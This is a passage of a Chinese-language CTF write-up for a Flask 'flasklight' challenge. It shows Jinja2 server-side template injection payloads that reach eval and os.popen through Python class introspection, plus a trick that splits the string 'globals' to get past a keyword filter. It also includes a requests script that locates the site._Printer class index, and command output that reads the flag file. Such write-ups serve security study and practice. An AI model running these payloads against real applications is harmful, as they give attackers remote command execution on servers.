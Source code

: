 ```url
?search={{[].__class__.__base__.__subclasses__()[59].__init__['__glo'+'bals__']['__builtins__']['eval']}}
```

返回`<built-in function eval>`

```url
?search={{[].__class__.__base__.__subclasses__()[59].__init__['__glo'+'bals__']['__builtins__']['eval']("__import__('os').popen('ls').read()")}}
或者
?search={{[].__class__.__mro__[1].__subclasses__()[59].__init__['__glo'+'bals__']['__builtins__']['eval']("__import__('os').popen('ls').read()")}}
```

返回`bin boot dev etc flasklight home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var`
即可正常读取`flag`

```url
?search={{[].__class__.__mro__[1].__subclasses__()[59].__init__['__glo'+'bals__']['__builtins__']['eval']("__import__('os').popen('cat flasklight/coomme_geeeett_youur_flek').read()")}}
```

#### 方法三：site._Printer

前面同样的需要获取到所有类的属性，不过这次需要找到class 'site._Printer'的下标位置

```python
import requests
import html
import re

url = "http://32782db1-4d7e-4680-83e2-be76f41a21f9.node5.buuoj.cn:81/?search={{[].__class__.__base__.__subclasses__()}}"

resp = requests.get(url)
content = html.unescape(resp.text)

res = re.findall("<h3>(.*?)</h3>", content)
r = res[0].split(',')
for i, v in enumerate(r):
    if 'site._Printer' in v:
        print(i)
```

得到索引为`71`

关于`class 'site._Printer'`这个类，这个类是内含`os`模块的，所以可以直接使用`os`模块，然后使用`popen()`方法执行命令，使用`read()`方法获取其返回值，这里也是同样`globals`被过滤掉了

```url
?search={{[].__class__.__mro__[1].__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('ls').read()}}
```

```url
?search={{[].__class__.__mro__[1].__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('cat flasklight/coomme_geeeett_youur_flek').read()}}
```
